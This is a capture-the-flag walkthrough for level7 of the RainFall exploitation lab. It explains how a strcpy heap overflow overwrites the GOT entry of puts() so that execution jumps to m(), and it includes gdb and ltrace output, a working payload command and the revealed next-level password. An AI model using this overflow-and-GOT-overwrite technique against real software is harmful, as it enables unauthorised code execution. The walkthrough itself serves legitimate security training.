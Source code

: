 level7
======

*	We spawn with a [level7](source/level7) executable
	```console
	level7@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
	level7@RainFall:~$ ./level7 
	Segmentation fault (core dumped)
	level7@RainFall:~$ ./level7 test
	Segmentation fault (core dumped)
	level7@RainFall:~$ ./level7 test test
	~~
	level7@RainFall:~$ 
	```
*	Let's look at the [code](source/level7.c) (I changed the name of some variable for the sake of my mental health):
	-	`main()` takes two arguments and then:
		-	two array and one normal var:
			-	`arr1` and `arr2` are both `malloc(8)`
			-	`varx` also `malloc(8)` to create a seperated memory region
			-	it should look something like this:
				```c
				arr1[0] = 1
				arr1[1] = [][][][][][][][] // 8 bytes memory region to store the string argv[1]

				arr2[0] = 2
				arr2[1] = [][][][][][][][] // 8 bytes memory region to store the string argv[2]
				```
				To be fair the issue in this level7 is just understanding that horrible code
		-	next we have two `strcpy()`, one for each argument like shown above
		-	then `fopen()` and `fgets` respectively fetch and store the password of the next level in a global variable `c`
		-	and `puts("~~")`
	-	`m()` prints the content of `c` but is never called in `main()`
*	Pretty obvious here that we need to find a way to call `m()` but only once the password has been fetched onto `c`. As we did in the last level, we will strcpy. Most logical way to our means would be to replace the function pointer calling `puts()` to point to `m()`.
*	To reach `puts()`, we have to :
	-	overflow `arr1[1](argv[1])`
	-	to reach `arr2[0]`
	-	to reach `arr[1](argv[2])`
*	Once again let's use `ltrace` to retrieve every address
	```console
	level7@RainFall:~$ ltrace ./level7 
	[...]
	malloc(8)           = 0x0804a008 -> arr1
	malloc(8)           = 0x0804a018 -> varx
	malloc(8)           = 0x0804a028 -> arr2
	malloc(8)           = 0x0804a038 -> varx
	```
	Once again we can see that the allocation are contiguous.\
	We also find the difference between the two array is `a028 - a008 = 10(HEX) -> 16 bytes + 4 bytes to reach the second index -> 20 bytes`
*	Next step, find `puts()` int GOT:
	```gdb
	(gdb) x puts
	0x8048400 <puts@plt>:   0x992825ff
	(gdb) disas 0x8048400
	Dump of assembler code for function puts@plt:
	0x08048400 <+0>:     jmp    *0x8049928
	0x08048406 <+6>:     push   $0x28
	0x0804840b <+11>:    jmp    0x80483a0
	```
	`jmp` done at `\x28\x99\x04\x08`
*	Now for `m`:
	```
	(gdb) x m
	0x80484f4 <m>:  0x83e58955
	```
	we get this `\xf4\x84\x04\x08`
*	We have everything we need, let's build our payload:
	```console
	level7@RainFall:~$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
	5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
	```
	padding + `puts()` & `m()`
